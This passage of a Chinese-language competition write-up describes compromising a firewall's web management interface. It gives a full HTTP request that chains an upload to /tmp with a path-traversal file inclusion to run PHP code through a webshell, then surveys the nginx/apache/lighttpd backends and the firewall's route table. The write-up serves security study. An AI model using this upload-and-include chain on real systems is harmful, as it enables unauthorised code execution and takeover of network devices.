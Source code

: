 ```
            }
            var_dump($newfilename);
            if(move_uploaded_file($_FILES["file"]["tmp_name"],$newfilename)) {
                echo sendRequestSingle($config);
            } else
                $this->display('Default/auth_user_manage');
        }
     }
```

这里的上传只能传到/tmp目录下，而且不可以跨目录，所以我们直接传文件上去。

紧接着然后使用之前的文件包含直接包含该文件
```
GET /?c=Auth/User&a=index&assign=0&w=../../../../../../../../tmp/index1&ddog=var_dump(scandir('/usr/local/apache2/htdocs')); HTTP/1.1
Host: 172.29.118.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=spk6s3apvh5c54tj9ch052fp53; think_language=zh-CN
Upgrade-Insecure-Requests: 1
```

上传文件的时候要注意seesion和token，token可以从首页登陆页面获得。

至此我们成功获得了webshell。这里拿到webshell之后就会进入一段神奇的发现。

首先，服务端除了`/usr`以外没有任何的目录，其中`/usr/`中除了3个服务端，也没有任何多余的东西。换言之就是没有`/bin`，也就是说并没有一个linux的基本环境，这里我把他理解为执行体，在他的外层还有别的代码来联通别的执行体。

由于没有`/bin`，导致服务端不能执行system函数，这大大影响了我的攻击效率，这可能也是我被反超的一个原因...

继续使用php eval shell，我们发现后端3个执行体分别为nginx\apache\lighthttpd，实际上来说都是在同一个文件夹下
```
/usr/local/apache2/htdocs
/usr/local/nginx/htdocs
/usr/local/lighttpd/htdocs
```

由于Web的服务器可以随便攻击，有趣的是，在未知情况下，服务端会被重置，但神奇的是，一次一般只会重置3个服务端的一部分，这里也没有拟态裁决的判定，只要单纯的刷新就可以进入不同的后端，其感觉就好像是负载均衡一样。

这样我不禁怀疑起服务端的完成方式，大概像裁决机是被设定拼接在某个部分之前的，其裁决的内容也有所设定，到这里我们暂时把服务端架构更换。

![image.png-31.9kB][5]

# 阅读服务端代码

在拿到shell之后，主办方强调Web服务和题目无关，需要修改后端的访问控制权限，由于本地的代码和远程差异太大，所以首先要拿到远端的代码。

从`/conf/menu.php`中可以获得相应功能的路由表。
```
...
'policy' => array(
    'text' => L('SECURE_POLICY'),
    'childs' => array(
        //访问控制
        'firewall' => array(
            'text' => L('ACCESS_CONTROL'),
            'url' => '?c=Policy/Interview&a=control_show',
            'img' => '28',
            'childs' => ''
        ),
        //地址转换
        'nat' => array(
```

  [1]: http://static.zybuluo.com/LoRexxar/2k4skvfxrdpk81z7h7ktz8a3/image.png
  [2]: http://static.zybuluo.com/LoRexxar/wjyknopjz1krhiw5xiwdmck7/image.png
  [3]: http://static.zybuluo.com/LoRexxar/d5qwbe52uoykxpukj2jng0nq/image.png
  [4]: http://static.zybuluo.com/LoRexxar/19xgb9vijfro6rt1tmtmq4a2/image.png
  [5]: http://static.zybuluo.com/LoRexxar/086wtfcoxjv3qiu42cmayvzv/image.png
  [6]: http://static.zybuluo.com/LoRexxar/inqsfwig6xb3bvudh8dhozzl/image.png